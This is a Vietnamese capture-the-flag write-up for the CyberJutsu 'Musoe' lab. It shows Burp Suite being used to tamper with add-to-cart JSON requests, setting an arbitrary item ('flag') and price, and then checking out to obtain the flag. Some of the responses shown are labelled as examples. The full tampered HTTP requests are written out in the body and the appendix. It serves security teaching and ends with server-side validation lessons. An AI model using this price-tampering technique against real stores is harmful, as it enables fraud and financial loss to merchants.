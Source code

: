 # CBJS Lab — Musoe (Buy-the-Flag)  
**Write-up (story mode)**

> Một chuyến ghé thăm *Musoe* — nơi mọi thứ có thể được mua bán, kể cả những điều kỳ quặc nhất.  
> Chủ đề: lỗi logic cửa hàng (client-trust), tampering request, checkout → mua được flag.

---

## Table of Contents
- [1. Câu chuyện bắt đầu](#1-câu-chuyện-bắt-đầu)
- [2. Thăm dò ngôi làng (Recon)](#2-thăm-dò-ngôi-làng-recon)
- [3. Cửa hàng bí mật (Analysis)](#3-cửa-hàng-bí-mật-analysis)
- [4. Trò nghịch ngợm (Tampering)](#4-trò-nghịch-ngộm-tampering)
- [5. Thanh toán và nhận kho báu (Exploitation)](#5-thanh-toán-và-nhận-kho-báu-exploitation)
- [6. Kết thúc câu chuyện (Conclusion)](#6-kết-thúc-câu-chuyện-conclusion)
- [Appendix — Requests & Notes](#appendix--requests--notes)

---

## 1. Câu chuyện bắt đầu

Một đêm lang thang trong thế giới CTF, mình mở bản đồ và thấy một lab tên **Musoe** thuộc hệ thống *CyberJutsu Lab*. Có một hint: **“flag can be bought in the shop.”**  

Ý nghĩ đầu tiên: *Ai lại bán flag công khai?* Nhưng một hint là hint — mình quyết định đi thử.

Mình truy cập:
```
https://musoe.cyberjutsu-lab.tech/
```

Giao diện hiện ra giống một cửa hàng nhỏ: Home, Shop, Cart — nhìn rất bình thường.

---

## 2. Thăm dò ngôi làng (Recon)

Mình click vào **Shop** và thấy danh sách mặt hàng cùng giá tiền. Không có item tên `flag` trong danh sách.  

Tuy nhiên mình bật **Burp Suite**, chọn Proxy → Intercept, và thử **Add to cart** một món hàng (ví dụ `bread`).

Quan sát request:

```http
POST /cart/add HTTP/1.1
Host: musoe.cyberjutsu-lab.tech
Content-Type: application/json

{
  "item": "bread",
  "price": 5
}
```

Điều đáng chú ý: **giá (price)** được gửi từ client. Server dường như tin dữ liệu client gửi về giá cả.

Trong đầu mình lóe lên một ý: *nếu server chấp nhận giá do client gửi, liệu mình có thể gửi item tùy ý (ví dụ "flag") với giá rẻ không?*

---

## 3. Cửa hàng bí mật (Analysis)

Trước khi làm liều, mình thử thêm một vài thao tác khảo sát:

- Thêm nhiều item khác nhau, thay giá, xem server trả về gì.
- Tìm xem checkout yêu cầu gì (cookie/session, token, hay chỉ dựa vào cart server-side).
- Dò xem có endpoint `/admin` hay `/items` trả JSON liệt kê items không.

Một vài phát hiện:
- Add-to-cart trả về message `Added <item> to your cart!` khi payload hợp lệ.
- Cart có thể được xem bằng endpoint `/cart` (GET) và trả về nội dung cart hiện tại.
- Checkout endpoint là `/cart/checkout` (POST) — mình chưa thử checkout vì muốn đảm bảo mình bỏ item "flag" vào cart trước.

---

## 4. Trò nghịch ngợm (Tampering)

Mình quyết định thử payload “mua” item tên `flag`. Sửa body request như sau và gửi bằng Burp Repeater:

```http
POST /cart/add HTTP/1.1
Host: musoe.cyberjutsu-lab.tech
Content-Type: application/json

{
  "item": "flag",
  "price": 1
}
```

Response:
```
Added flag to your cart!
```

Tức thì mình mở `/cart` để kiểm tra nội dung:

```http
GET /cart HTTP/1.1
Host: musoe.cyberjutsu-lab.tech
```

Response (ví dụ):
```json
{
  "cart": [
    {"item": "bread", "price": 5},
    {"item": "flag", "price": 1}
  ],
  "total": 6
}
```

Cart đã có `flag` — rõ ràng server không validate `item`/`price` kỹ lắm.

> Lưu ý: một số lab thiết kế để `flag` không hiện trong shop UI nhưng server chấp nhận item nếu client gửi đúng tên — đó chính là bài học: **không tin tưởng dữ liệu client gửi**.

---

## 5. Thanh toán và nhận kho báu (Exploitation)

Bước tiếp theo là checkout. Mình gửi request checkout (bằng Burp Repeater):

```http
POST /cart/checkout HTTP/1.1
Host: musoe.cyberjutsu-lab.tech
Content-Type: application/json
Cookie: session=abcdef123456

{}
```

Server trả một response text (hoặc JSON) chứa flag:

```
Congratulations! Here is your prize:
cbjs{y0u_b0ught_th3_flag}
```

Hoặc định dạng khác — nhưng flag đã xuất hiện trực tiếp sau khi checkout thành công.

Mình chụp lại request/response, lưu bằng chứng (screenshot Burp Repeater + `/cart` JSON + flag), và copy flag vào notebook.

---

## 6. Kết thúc câu chuyện (Conclusion)

Từ một hint “flag mua được ở shop”, mình chỉ cần:
- Tìm các điểm server dựa vào dữ liệu client (price/item).
- Thêm item `flag` bằng tampering request.
- Checkout để nhận flag.

**Bài học rút ra**
- Tuyệt đối **không tin tưởng dữ liệu client gửi** cho các logic tài chính/giao dịch.
- Tất cả giá cả, quyền, status, item-sensitive phải được kiểm tra và xác thực server-side.
- Trong môi trường thật, lỗi này có thể dẫn tới gian lận, mất mát tài chính hoặc rò rỉ dữ liệu nhạy cảm.

---

## Appendix — Requests & Notes

### Add to cart (tampered)
```http
POST /cart/add HTTP/1.1
Host: musoe.cyberjutsu-lab.tech
Content-Type: application/json

{
  "item": "flag",
  "price": 1
}
```

### View cart
```http
GET /cart HTTP/1.1
Host: musoe.cyberjutsu-lab.tech
Cookie: session=abcdef123456
```

### Checkout
```http
POST /cart/checkout HTTP/1.1
Host: musoe.cyberjutsu-lab.tech
Content-Type: application/json
Cookie: session=abcdef123456

{}
```

### Evidence to include in write-up
- Screenshot Burp Intercept / Repeater của request `POST /cart/add` (trước và sau chỉnh).  
- Screenshot JSON `GET /cart` cho thấy `flag` trong giỏ.  
- Screenshot response `POST /cart/checkout` chứa flag.  
- Ghi chú: không chia sẻ secret/private data trên write-up.
